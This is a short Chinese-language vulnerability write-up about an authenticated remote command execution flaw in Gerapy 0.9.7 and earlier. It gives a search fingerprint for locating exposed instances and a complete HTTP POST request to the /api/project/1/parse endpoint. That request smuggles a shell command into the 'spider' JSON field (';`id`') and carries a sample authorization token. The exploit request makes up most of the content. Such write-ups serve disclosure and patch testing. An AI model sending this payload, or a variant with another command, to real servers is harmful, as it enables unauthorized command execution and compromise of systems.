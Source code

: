 # 

# Gerapy parse 后台远程命令执行漏洞

## 漏洞描述

Gerapy gerapy/server/core/views.py 中的方法存在任意命令执行，攻击者登录后台后发送特定的请求包即可利用漏洞

## 漏洞影响

```
Gerapy <= 0.9.7
```

## 网络测绘

```
title="Gerapy"
```

## 漏洞复现

登录页面

![image-20220524145144051](./images/202205241451094.png)

出现漏洞的文件为 `gerapy/server/core/views.py`

![](./images/202205241451220.png)

构造请求包测试命令执行

```
POST /api/project/1/parse HTTP/1.1
Host: 
Pragma: no-cache
Cache-Control: no-cache
Accept: application/json, text/plain, */*
Authorization: Token 0fb31a60728efd8e6398349bea36fa7629bd8df0
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.55 Safari/537.36
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Content-Length: 18

{"spider":";`id`"}
```

![](./images/202205241452592.png)
